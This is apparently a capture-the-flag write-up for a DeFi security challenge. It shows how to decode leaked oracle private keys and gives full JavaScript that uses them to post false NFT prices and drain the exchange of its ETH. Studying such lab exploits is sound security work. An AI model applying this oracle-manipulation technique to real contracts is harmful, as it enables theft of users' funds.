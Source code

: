 # Level 7 : Compromised

To begin this level the first thing to do is understand the data given here 

![Untitled](images/7.png)

This data is in fact 2 private keys from supposed Trusted_source of the oracle on the contracts. When we understand and get the private keys (hex ⇒ base64 ⇒ utf8) the logic is pretty simple.

The 4 conditions to resolve the challenge here are 

- Balance of exchange must be 0
- Attacker (us) must have stole 9990 ETH
- Attacker does not own an NFT
- NFT price should be 99 ETH

All functions to do that are available on the contract, the logic is like that : 

1. Create 2 wallets initialized with private keys we got
2. Modify the price of an NFT to be 0
3. Buy 1 NFT for 1 wei (to be greather than 0)
4. Modify the price of an NFT to be 9990
5. Sell NFT to the exchange
6. Modify the price of an NFT to be again 99 ETH

No need to write a contract this time , everything can be done using javascript : 

```jsx
const tokenSymbol = await this.nftToken.symbol()
const leakedInformation =[
  '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35',
  '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34'
]
const leakToPrivateKey = (leak) => {
  const base64 = Buffer.from(leak.split(' ').join(''), 'hex').toString('utf8')
  const hexKey = Buffer.from(base64,'base64').toString('utf8')
  return hexKey
}
const privateKey1 = leakToPrivateKey(leakedInformation[0]);
console.log(privateKey1)
const privateKey2 = leakToPrivateKey(leakedInformation[1])
console.log(privateKey2)
// Modify Price
const oracle1 = new ethers.Wallet(privateKey1, ethers.provider)
const oracle2 = new ethers.Wallet(privateKey2, ethers.provider)
console.log('Check NFT Price before : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
await this.oracle.connect(oracle1).postPrice(tokenSymbol,0)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,0)
console.log('Check NFT Price when buying: ',String(await this.oracle.getMedianPrice(tokenSymbol)))
await this.exchange.connect(attacker).buyOne({value: 1}) // Buy for 1 Wei
// Set Price to 9990 before selling
await this.oracle.connect(oracle1).postPrice(tokenSymbol,EXCHANGE_INITIAL_ETH_BALANCE)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,EXCHANGE_INITIAL_ETH_BALANCE)
console.log('Check NFT Price when selling : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
// Approve exchange to sell NFT at max price
await this.nftToken.connect(attacker).approve(this.exchange.address,0)
await this.exchange.connect(attacker).sellOne(0)
// Last condition to validate the challenge
await this.oracle.connect(oracle1).postPrice(tokenSymbol,INITIAL_NFT_PRICE)
await this.oracle.connect(oracle2).postPrice(tokenSymbol,INITIAL_NFT_PRICE)
console.log('Check NFT price after attack : ',String(await this.oracle.getMedianPrice(tokenSymbol)).slice(0,-18))
```

## Key Security Takeaways

- Don’t expose your private keys 😇